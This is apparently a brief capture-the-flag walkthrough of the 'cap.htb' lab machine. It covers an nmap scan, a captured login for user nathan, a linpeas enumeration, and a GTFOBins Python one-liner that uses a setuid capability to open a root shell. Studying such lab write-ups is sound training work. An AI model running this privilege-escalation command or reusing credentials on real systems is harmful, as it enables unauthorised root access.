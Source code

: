 Let's do the default steps:
`nmap 10.10.10.245  -Pn -A` and add `10.10.10.245 cap.htb` to `/etc/hosts`




![[Pasted image 20250428185603.png]]
![[Pasted image 20250428185615.png]]

`PASS Buck3tH4TF0RM3!` 
`USER nathan`

There a thing called `linpeash.sh` we run to scan the whole machine for any vulnerabilities. It gives a bunch of CVEs.
![[Pasted image 20250428194304.png]]

One peculiar thing is the `python3.8` executable has the capability to do `setuid` for users to run programs.

Now, there is this site called https://gtfobins.github.io/. Look at python's exploit and it says when the cap bit us set we can run below code and get a root shell!
`python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'`

Voila! Now, we simply get the flag from `/root/root.txt` and treat yourself to a fresh crisp glass of god's necter!


